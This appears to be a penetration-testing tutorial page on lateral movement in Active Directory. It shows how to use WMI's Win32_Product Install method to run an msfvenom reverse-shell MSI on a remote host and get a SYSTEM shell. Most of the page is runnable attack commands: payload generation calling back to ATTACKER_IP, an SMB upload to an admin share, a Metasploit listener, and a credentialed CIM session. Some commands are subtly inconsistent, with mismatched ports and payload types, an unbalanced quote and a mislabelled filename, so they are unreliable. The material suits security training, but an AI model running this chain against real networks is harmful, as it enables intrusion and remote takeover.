 # Example

Refer to the section labelled ["Example scenario"](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/example-scenario) to understand the setup we will be working with. The following will illustrate an example of how we can use WMI to move laterally in a network.

### (1) Using `.msi` packages and `Win32_Product`

#### 1. Craft the reverse shell payload (`msfvenom`) in the `.msi` format

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=8888 -f msi -o rvshell.msi
```
{% endcode %}

> Take note of the value passed to the `LPORT` option

#### 2. Copy the payload over to the target machine using _SMB_ (or any other methods available):

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -W test.com -L '//iis.test.com'
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...


$ smbclient -c "put <msi_name>.msi -U admin -W test.com '//iis.test.com/ADMIN$'
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the `.msi` file created with `msfvenom`

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST <local_addr>
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
{% endcode %}

#### 3. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Install method from the `Win32_Product` class:

a. Create WMI session

{% code overflow="wrap" %}
```powershell
PS C:\> $username = 'admin';
PS C:\> $password = 'pass';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

PS C:\> $Opt = New-CimSessionOption -Protocol Dcom
PS C:\> $Session = New-CimSession -ComputerName iis.test.com -Credential $credential -SessionOption $Opt -ErrorAction Stop 
```
{% endcode %}

b. Invoke `Win32_Product` Install method:

{% code overflow="wrap" %}
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\<installed_msi>.msi";
Options = "";
AllUsers = $false
}
```
{% endcode %}

After executing the above commands, we should receive a connection on the `msfconsole` listener we have established earlier:

{% code title="msfconsole" overflow="wrap" %}
```powershell
C:\> whoami
nt authority\system
```
{% endcode %}

